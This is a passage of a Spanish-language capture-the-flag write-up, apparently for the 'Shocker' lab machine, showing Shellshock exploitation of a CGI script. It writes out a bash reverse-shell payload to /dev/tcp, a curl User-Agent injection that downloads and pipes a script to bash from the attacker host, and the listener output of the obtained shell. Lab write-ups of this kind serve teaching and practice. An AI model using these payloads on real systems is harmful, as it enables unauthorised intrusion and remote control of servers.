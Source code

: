 ## Web Exploitation

Le hacemos una petición a esa ruta y `capturamos` la `petición` con `Burpsuite` y esto es lo que obtenemos

![](/assets/img/Shocker/image_2.png)

Ahora con el comando `curl` vamos a `explotar` el `ShellShock`, lo primero es crearnos un archivo `shell.sh` con este `payload`

```
bash -i >& /dev/tcp/10.10.16.16/443 0>&1
```

Nos ponemos en el `mismo directorio` en el que está el archivo `shell.sh` en `escucha` con python

```
# python -m http.server 80
```

Con `netcat` nos ponemos en `escucha` por el `puerto 443`

```
# nc -nlvp 443
```

Ejecutamos el comando con `curl` para `obtener` una `shell`, este `payload` lo podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

```
# curl -H 'User-Agent: () { :; }; /bin/bash -c "curl http://10.10.16.16/shell.sh | bash"' http://10.129.198.109/cgi-bin/user.sh
```

Si todo ha ido bien deberíamos haber `obtenido` una `shell`,  ahora vamos a hacer un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.198.109] 54964
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
shelly
```
